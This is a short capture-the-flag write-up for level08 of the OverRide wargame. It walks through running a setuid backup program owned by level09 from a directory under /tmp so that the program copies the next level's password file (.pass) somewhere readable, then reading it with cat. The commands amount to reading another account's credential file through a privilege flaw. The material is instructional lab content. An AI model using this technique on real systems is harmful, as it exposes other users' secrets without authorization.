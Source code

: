 # level08 

The `./level08` program allows you to duplicate files in a `./backups/' folder and keep a record of operations performed in the .log file. 

We could therefore use the program to open the file containing our flag (/home/users/level09/.pass). 
In fact, the program's owner is level09: 
```bash 
level08@OverRide:/tmp/backups$ ls -l ~/level08 
-rwsr-s---+ 1 level09 users 12975 Oct 19 2016 /home/users/level08/level08
```
In order to get our flag, we need to create the `/backups/` folder, otherwise the program that tries to open it will return an error :
```bash
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups/.log
```
because of that security check:
```c
logFile = fopen(“./backups/.log”, “w”);
if (logFile == NULL) {
    printf(“ERROR: Failed to open %s\n”, “./backups/.log”);
    exit(1);
}
```

We don't have the rights to create a `/backups/` folder in `/home/users/level08`, so we can go to `/tmp/` to create it.
```bash 
mkdir -p 'backups/home/users/level09/'
```
Once created, we simply need to run the program with the path to our flag as filename parameter. In fact, we can open the file, as it is executed by level09. 
```bash
~/level08 /home/users/level09/.pass
```

Our `/home` folder will then be copied into our `/backups` folder.
Now all we need to do is cat our flag... 
```bash 
cat backups/home/users/level09/.pass
```
And TADAM!

